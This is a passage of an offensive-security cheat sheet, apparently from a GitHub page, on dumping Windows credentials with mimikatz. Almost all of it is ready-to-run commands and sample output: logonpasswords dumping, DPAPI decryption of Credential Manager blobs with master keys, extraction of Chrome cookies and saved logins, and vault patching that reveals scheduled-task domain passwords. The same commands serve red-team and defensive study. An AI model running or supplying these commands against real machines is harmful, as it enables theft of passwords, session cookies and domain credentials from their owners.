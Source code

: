   ```ps1
  privilege::debug
  ts::logonpasswords
  ```

## Credential Manager & DPAPI

```powershell
# check the folder to find credentials
dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\*

# check the file with mimikatz
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0

# find master key
$ mimikatz !sekurlsa::dpapi

# use master key
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\2647629F5AA74CD934ECD2F88D64ECD0 /masterkey:95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b
```

### Chrome Cookies & Credential

```powershell
# Saved Cookies
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect
dpapi::chrome /in:"C:\Users\kbell\AppData\Local\Google\Chrome\User Data\Default\Cookies" /masterkey:9a6f199e3d2e698ce78fdeeefadc85c527c43b4e3c5518c54e95718842829b12912567ca0713c4bd0cf74743c81c1d32bbf10020c9d72d58c99e731814e4155b

# Saved Credential in Chrome
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```

### Task Scheduled credentials

```powershell
mimikatz(commandline) # vault::cred /patch
TargetName : Domain:batch=TaskScheduler:Task:{CF3ABC3E-4B17-ABCD-0003-A1BA192CDD0B} / <NULL>
UserName   : DOMAIN\user
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00004004
Credential : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
Attributes : 0
```

### Vault
